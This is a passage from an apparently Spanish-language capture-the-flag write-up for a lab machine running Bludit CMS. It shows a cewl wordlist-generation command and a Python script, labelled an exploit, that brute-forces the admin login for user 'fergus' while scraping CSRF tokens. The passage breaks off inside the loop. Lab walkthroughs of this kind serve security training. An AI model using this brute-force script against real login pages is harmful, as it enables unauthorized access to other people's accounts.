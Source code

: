 
```bash
❯ cewl -w dictionary.txt http://10.10.10.191
CeWL 5.4.8 (Inclusion) Robin Wood (robin@digi.ninja) (https://digi.ninja/)
❯ ls
 dictionary.txt
```

AHora que disponemos de un usuario valido `fergus` y de un diccionario de posibles contraseñas `dictionary.txt`, podemos crearnos un script en `python` para automatizar el proceso de fuerza bruta y averiguar la contraseña valida.

Llamaremos a nuestro `exploit` bludit.py.


```python
#!/usr/bin/python3


from pwn import *
import requests, re


def def_handler(sig, frame):
    print("\n[!]Saliendo...!\n")
    sys.exit(1)

#ctrl_c
signal.signal(signal.SIGINT, def_handler)
#variables_globales
main_url = "http://10.10.10.191/admin/"


def makeRequests():

    s = requests.session()

    passwords = open("dictionary.txt", 'r')

    p1 = log.progress("Fuerza Bruta")
    p1.status("Iniciando proceso de Fuerza Bruta")
    time.sleep(2)

    counter = 1

    for password in passwords.readlines():
        
        password = password.strip('\n')
       
        p1.status("Probando con la password [%d/349]: %s" % (counter, password))

        r = s.get(main_url)

        tokenCSRF = re.findall(r'name="tokenCSRF" value="(.*?)"', r.text)[0]

        post_data = {
                "tokenCSRF": tokenCSRF,
                "username": "fergus",
                "password": password,
                "save": ''
        }


        r = s.post(main_url, data=post_data)
        counter += 1

```